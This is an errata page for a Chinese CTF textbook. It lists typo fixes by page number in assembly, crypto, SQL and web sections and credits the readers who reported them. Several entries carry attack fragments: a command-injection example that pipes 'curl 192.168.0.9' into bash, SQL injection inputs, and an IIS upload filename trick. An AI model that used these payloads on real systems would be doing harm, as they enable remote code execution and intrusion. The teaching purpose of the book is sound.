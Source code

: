# 勘误表

非常感谢各位热心读者对我们书籍的关注, 在书籍出版后, 进行阅读时, 由读者或我们发现了一些错误, 在此页面进行集中更正, 如果读者发现本书部分内容存在问题, 可以向 ***book#nu1l.com*** 发送邮件, 我们将在确认后在此页面即时更新, 并及时交由出版社处理.

## 图片模糊说明

书中确实有黑色背景图片导致模糊不清，我们对此深感歉意，目前已在自查，在第3次印刷中，争取全部替换。

## 勘误表

*版次: 2020年9月第1版 印次: 2020年9月第1次印刷*

| 序号 | 页码   | 修改描述                                                                                      |
| -- | ---- | -----------------------------------------------------------------------------------------                                                       |
| 1  | 目录 | 从“CTF线下赛”页码开始出现错误，需要重新按照实际页数编写                                    |
| 2  | 235页 | 图5-1-1中的“BX AH AL”那3个格子（第2行）改为“`BX BH BL`”                                                  |
| 3  | 237页 | 表5-1-3中所有的“无符号数”与“有符号数”`对调`，“cmp a，b条件”列"jb/jnae/jc"行“a&gt;b”改为"`a<b`", "ja/jnbe"行"a&lt;b"改为"`a>b`"   |
| 4  | 450页 | 1⊕1=1改为`1⊕1=0`, 1+1(mod 2)=1改为`1+1(mod 2)=0`                                                  |
| 5  | 545页 | 10.2.5小节最后一句，“在构造Gadget候重写serialVersionUID有变化的类”修改为“在构造Gadget`时`重写serialVersionUID有变化的类”    |
| 6  | 234页 | 第四自然段中“......都是由COFF（Common File Format）格式发展......”，括号中的英文全称改为“`Common Object File Format`” |
| 7  | 234页 | 倒数第四行，“在指令中显式可见的寄存器”，改为“在`上下文`中显式可见的寄存器”                                                    |
| 8  | 238页 | 第9~10行Mircrosoft x64位调用约定处：“依次将前4个参数放入RDI、RSI、RDX、RCX”改为“依次（从左至右）将前4个参数放入`RCX、RDX、R8、R9`”   |
| 9 | 35页 |四级标题错误，应为`1.3.1.2`，`1.3.1.3`  |
| 10 | 57页 | 第一个图1-3-22为`1-3-21` |

*版次: 2020年9月第1版 印次: 2020年9月第2次印刷*

| 序号 | 页码   | 修改描述                                                                                      |
| -- | ---- | -----------------------------------------------------------------------------------------                                                       |
| 11  | 24页 | sqln1.php源码中，ROM改为`FROM`                                    |
| 12 | 73页 | scoat错误，应为`socat`                                                 |
| 13 | 339页 | 第339页，ASLR部分第二行 “降低攻击者对程序内存结构的了解程序”，删除最后的“`程序`” 二字   |
| 14 | 446页 |表7-3-2右边一列，表7-3-3右边两列是排版错误，应去掉这几列                                                  |
| 15 | 33页 |url中的aaaaaaaaa\应为`aaaaaaaaa'`                                                  |
| 16 | 19页 |SELECT title,content FROM wp_news WHERE id='1'#'”中的1应为`2`                                            |
| 17 | 361页 |Fast Bin Attack 节小标题序号 6.3.6.2 应为 `6.6.3.2`                                                 |                                                |
| 18 | 317页 |base block改为`basic block`（base block也有说法，但普遍都是basic block）                                             |
| 19 | 495页 | 在 lsb_encode 函数中 rgb[i] = rgb[i] & 0xfe + int(msg[count]) & 1 需要改为 `rgb[i] = (rgb[i] & 0xfe) + (int(msg[count]) & 1)` |
| 20 | 29页 | 29页下方的代码中, 第五行(注释将空格替换为空一行), 应改为 $id = str_replace(" ", "", `$id`); |
| 21 | 18页 | 最后一自然段中 sql2.php?id=3-2 应改为 `sql2.php?id=3-1` |
| 22 | 102页 | #generate \`curl 192.168.0.9\|sh\` 应改为 ``#generate `curl 192.168.0.9\|bash` `` |
| 23 | 341页 | 计算机中4种溢出情况中, 最后一种应为`有符号下溢` |
| 24 | 130页 | x.asp,a.jpg应为 `x.asp;a.jpg` |
| 25 | 461页 | 方程组右侧的4个1应为 `1010`，解的结果的0110应该为 `1010` |
| 26 | 467页 | 使用了相同的n,不同的模数e1 应为 `使用了相同的模数n，不同的指数e1` |
| 27 | 449页 | 有限域的标题下面的第二段的最后一句话，使得a*(a^-1)=e”，e应该改为`1` |
| 28 | 543页 | 代码注释中：首先创建某些OutputStream对象”，OutputStream应该为InputStream |

## 特别感谢

* [Prowes5](https://prowes5.github.io/): 指出目录页码印刷错误.
* [hustcw](https://blog.wh98.me/): 指出序号2中的错误.
* [流浪者](#): 指出序号9中的错误.
* [ycdxsb](http://blog.ycdxsb.cn/): 指出序号11中的错误.
* [十三年](#): 指出序号14中的错误.
* [Hh0](https://www.cnblogs.com/wrnan/): 指出序号18中的错误.
* [Adbase](#): 指出序号21中的错误.
* [kawhi](#):  指出序号22中的错误.
* [NWPU-feng](#):  指出序号24中的错误.
* [Brucy](https://blog.csdn.net/qq_41252520):  指出序号25中的错误.
